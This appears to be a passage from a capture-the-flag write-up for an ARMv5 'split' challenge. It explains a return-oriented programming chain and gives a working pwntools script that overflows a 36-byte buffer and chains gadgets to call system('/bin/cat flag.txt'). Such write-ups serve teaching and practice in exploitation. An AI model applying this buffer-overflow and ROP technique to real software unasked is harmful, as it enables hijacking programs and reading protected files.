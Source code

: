 The ROP chain will be constructed like so: 
- 36 byte garbage offset
- pop contents of pc (`bl system()` call) into $r3 with `pop {r3, pc}` to use later
- pop address for string /bin/cat flag.txt into $r7 first with `pop {r4, r5, r6, r7, r8, sb, sl, pc}` and then put the addr into $r7 with padding into the other registers.
- move contents of $r7 into $r0, so moving /bin/cat flag.txt into $r0 which will serve as our system call argument and then call branch link exchange (blx) to $r3 which will hit the system call.

This produces the flag but it hits a SIGSEGV after which is weird but I don't care enough to fix it since it works anyway. The python script is below.

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./split_armv5")
context.binary = binary
rop = ROP(binary)

p = process(binary.path)
p.recvuntil(b">")

# addresses/data
OFFSET = 36
PADDING = p32(0)
BIN_CAT_FLAG_ADDR = p32(0x2103c)        # /bin/cat flag.txt address
SYSTEM_CALL_ADDR = p32(0x103ec)         # bl system()
POP_MANY = p32(0x10644)                 # pop {r4, r5, r6, r7, r8, sb, sl, pc}
MOV_R0_R7 = p32(0x10634)                # mov r0, r7
POP_R3_PC = p32(0x10658)                # pop {r3, pc}


# ROP chain construction
# 36 char garbage
rop.raw(b"A"*OFFSET)

# pc -> r3
rop.raw(POP_R3_PC)
# system() -> pc
# so we're putting the address of bl system to use later
rop.raw(SYSTEM_CALL_ADDR)

# place the /bin/cat flag.txt into r7 whilst putting
# nothing into everything else
rop.raw(POP_MANY)
rop.raw(PADDING)                        # r4
rop.raw(PADDING)                        # r5
rop.raw(PADDING)                        # r6
rop.raw(BIN_CAT_FLAG_ADDR)              # /bin/cat flag.txt address into r7
rop.raw(PADDING)                        # r8 
rop.raw(PADDING)                        # sb
rop.raw(PADDING)                        # sl

# r7 -> r0
# which will do system("/bin/cat flag.txt")
rop.raw(MOV_R0_R7)

p.sendline(rop.chain())
print(p.recvall().decode("utf-8").split("\n")[1])
```